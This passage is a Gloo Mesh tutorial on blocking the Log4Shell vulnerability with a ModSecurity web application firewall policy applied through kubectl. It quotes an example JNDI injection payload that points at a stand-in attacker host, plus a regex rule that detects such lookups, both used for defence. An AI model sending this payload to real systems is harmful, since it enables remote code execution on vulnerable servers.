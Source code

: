 Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Finally, you need to update the httpbin `RouteTable` to use this `WAFPolicy`:

```bash
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw-443
      namespace: istio-gateways
      cluster: mgmt
```